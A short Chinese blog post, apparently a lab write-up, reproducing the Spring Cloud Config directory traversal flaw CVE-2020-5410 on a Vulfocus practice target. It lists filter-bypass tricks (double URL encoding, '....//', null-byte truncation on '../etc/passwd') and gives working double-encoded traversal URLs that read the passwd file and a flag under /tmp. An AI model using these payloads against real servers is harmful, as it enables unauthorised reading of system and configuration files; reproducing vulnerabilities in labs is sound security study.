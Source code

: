# 原创
：  【漏洞复现-spring-目录遍历】vulfocus/spring-cve_2020_5410

# 【漏洞复现-spring-目录遍历】vulfocus/spring-cve_2020_5410

**目录**

[一、靶场环境](#%E4%B8%80%E3%80%81%E9%9D%B6%E5%9C%BA%E7%8E%AF%E5%A2%83)

[1.1、平台：](#1.1%E3%80%81%E5%B9%B3%E5%8F%B0%EF%BC%9A)

[1.2、知识：](#1.2%E3%80%81%E6%BC%8F%E6%B4%9E%E7%89%88%E6%9C%AC%3A)

[1.3、描述：](#1.3%E3%80%81%E6%8F%8F%E8%BF%B0%EF%BC%9A)

[二、漏洞验证](#%E4%BA%8C%E3%80%81%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)

[2.1、分析：](#2.1%E3%80%81%E5%88%86%E6%9E%90%EF%BC%9A)

---


## 一、靶场环境

> 
<h3>1.1、平台：</h3>
[Vulfocus 漏洞威胁分析平台](https://vulfocus.cn/)
123.58.224.8:43117
123.58.224.8:20746

 <img alt="" height="368" src="https://img-blog.csdnimg.cn/623abb48531b4490b0c1ade2e51958ba.png" width="1064"/>
 



> 
<h3>1.2、知识：</h3>
1、跳目录
../上一级
（有时候可能需要考虑绕过过滤）
单次过滤：....//
正则匹配斜杠：..%252f(双重URL编码，因为浏览器会解码一次)
起始路径匹配：起始路径+相对路径结合绕过
后缀检测：空字节绕过（%00截断）../etc/passwd%00.png
……


> 
<h3>1.3、描述：</h3>
Spring Cloud Config，2.2.3之前的2.2.x版本，2.1.9之前的2.1.x版本以及较旧的不受支持的版本允许应用程序通过spring-cloud-config-server模块提供任意配置文件。恶意用户或攻击者可以使用特制URL发送请求，这可能导致目录遍历攻击。


---


---


## 二、漏洞验证

> 
<h3>2.1、分析：</h3>
对/进行了2次URL编码
/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fpasswd%23foo/development

读取flag文件
/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Ftmp%23foo/development 

 

